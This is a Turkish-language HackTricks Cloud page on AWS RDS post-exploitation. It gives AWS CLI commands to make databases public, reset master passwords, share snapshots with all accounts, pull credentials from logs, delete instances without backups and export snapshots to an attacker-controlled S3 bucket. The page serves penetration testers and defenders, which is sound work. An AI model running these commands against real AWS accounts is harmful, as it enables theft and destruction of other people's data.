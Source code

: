 # AWS - RDS Sonrası Sızma

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## RDS

Daha fazla bilgi için kontrol edin:

{% content-ref url="../aws-hizmetleri/aws-veritabanları/aws-ilişkisel-veritabanı-rds-enum.md" %}
[aws-ilişkisel-veritabanı-rds-enum.md](../aws-hizmetleri/aws-veritabanları/aws-ilişkisel-veritabanı-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Saldırgan yeterli izinlere sahipse, bir **DB'yi halka açık** hale getirebilir. Bunun için DB'nin bir anlık görüntüsünü oluşturur ve ardından bu anlık görüntüden halka açık bir DB oluşturur.
```bash
aws rds describe-db-instances # Get DB identifier

aws rds create-db-snapshot \
--db-instance-identifier <db-id> \
--db-snapshot-identifier cloudgoat

# Get subnet groups & security groups
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
--db-instance-identifier "new-db-not-malicious" \
--db-snapshot-identifier <scapshotId> \
--db-subnet-group-name <db subnet group> \
--publicly-accessible \
--vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
--db-instance-identifier "new-db-not-malicious" \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# Connect to the new DB after a few mins
```
### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Bu izinlere sahip bir saldırgan, bir DB'nin bir anlık görüntüsünü oluşturabilir ve bunu halka açık hale getirebilir. Ardından, kendi hesabında bu anlık görüntüden bir DB oluşturabilir.

Eğer saldırganın `rds:CreateDBSnapshot` izni yoksa, yine de başka oluşturulmuş anlık görüntüleri halka açık hale getirebilir.

{% code overflow="wrap" %}
```bash
# create snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Make it public/share with attackers account
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Specify account IDs instead of "all" to give access only to a specific account: --values-to-add {"111122223333","444455556666"}
```
### `rds:DownloadDBLogFilePortion`

`rds:DownloadDBLogFilePortion` izni olan bir saldırgan, bir RDS örneğinin günlük dosyalarının bölümlerini indirebilir. Hassas veriler veya erişim kimlik bilgileri yanlışlıkla kaydedilmişse, saldırgan bu bilgileri kullanarak ayrıcalıklarını yükseltebilir veya yetkisiz işlemler gerçekleştirebilir.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Potansiyel Etki**: Sızdırılan kimlik bilgilerini kullanarak hassas bilgilere erişim veya yetkisiz işlemler yapma.

### `rds:DeleteDBInstance`

Bu izinlere sahip bir saldırgan, **mevcut RDS örneklerini DoS** edebilir.

{% code overflow="wrap" %}
```bash
# Delete
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Potansiyel etki**: Mevcut RDS örneklerinin silinmesi ve potansiyel veri kaybı.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Test
{% endhint %}

Bu izne sahip bir saldırgan, bir RDS örneği anlık görüntüsünü bir S3 kovasına **aktarabilir**. Saldırgan, hedef S3 kovasını kontrol ediyorsa, aktarılan görüntü içindeki hassas verilere potansiyel olarak erişebilir.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Potansiyel etki**: Dışa aktarılan anlık görüntüdeki hassas verilere erişim.

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana dönüşmek için</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>'ı öğrenin!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'i keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* Hacking hilelerinizi **HackTricks** ve **HackTricks Cloud** github depolarına PR göndererek paylaşın.

</details>
